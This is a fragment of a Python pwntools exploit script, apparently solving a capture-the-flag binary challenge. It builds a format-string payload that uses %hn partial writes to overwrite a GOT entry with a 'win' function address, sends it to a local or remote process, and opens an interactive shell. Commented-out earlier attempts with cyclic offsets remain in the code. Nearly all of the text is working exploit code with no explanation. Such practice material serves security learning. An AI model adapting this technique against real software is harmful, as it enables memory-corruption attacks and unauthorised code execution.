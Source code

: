 ```
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
win = p32(0x80491d6)
index = 123*24
address = p32(0x804c1c0)
# GOT @ %50x @ 804c000
# main @ %55x 
payload = b'127'
#partial_win = 0x91d6-len(payload)
#payload += f'%{partial_win}x%55$hn'.encode()
#payload += cyclic(3000)
#eax_offset = cyclic_find("abdk")
# eax @ dnab
#eax_offset = cyclic_find("dnab")

#log.info(f"eax change at input: {eax_offset}")
#index_offset = index - len(payload)
#payload += fit({
#    3: b"%x "*950,
#    eax_offset: address,
#    index_offset: win*6
#})
#=======================================
partial_overwrite = 0x91d6 - len(payload)
payload += f"%{partial_overwrite}x%1$hn".encode()
offset = index - len(payload)
payload += fit({
    0: b"%x "*100,
    offset: address,
    offset + 4: 0x804c020
})
p.recvuntil(b"[0-3]: ", drop=True)
p.sendline(payload)

p.interactive()

```
